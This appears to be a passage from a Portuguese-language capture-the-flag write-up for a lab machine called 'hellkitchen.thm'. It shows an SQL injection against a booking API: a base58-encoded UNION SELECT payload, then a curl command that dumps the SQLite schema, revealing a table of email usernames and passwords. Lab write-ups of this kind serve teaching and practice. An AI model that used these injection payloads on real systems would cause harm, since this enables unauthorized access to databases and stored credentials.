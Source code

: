 
----

# Exploração
## `SQL Injection`
Após vários testes o que foi tentado por último foi um `SQLi`
**Payload Codificada:** `ApfkkDrFctMBrXvWEEen6XX5Sckx1oTyb8nAuVZWwcC49bwS`
**Payload Decodificada:** `booking_id:6' UNION SELECT 1,2 -- -`


![](attachment/22c7dcc7b32ca251edabd68556bd9aac.png)

### Descobrindo a versão do `SQLite`
![](attachment/3c9cb9239d371bb966811f693e793fe2.png)

### Descobrindo nome das tabelas
`curl "http://hellkitchen.thm/api/booking-info?booking_key=$(echo -n "booking_id:3' UNION SELECT group_concat(sql, '\n'), 2 FROM sqlite_schema; --" | base58)"`

```
{"room_num":"CREATE TABLE email_access (guest_name TEXT, email_username TEXT, email_password TEXT)\\nCREATE TABLE reservations (guest_name TEXT, room_num INTEGER, days_remaining INTEGER)\\nCREATE TABLE bookings_temp (booking_id TEXT, room_num TEXT, days TEXT)","days":"2"}
```

Com isso, descobrimos 3 tabelas:
- `email_acess` -> `guest_name, email_username e email_password`
- `reservations` -> `guest_name, room_num e days_remaining`
- `bookings_temp` -> `booking_id, room_enum e days`
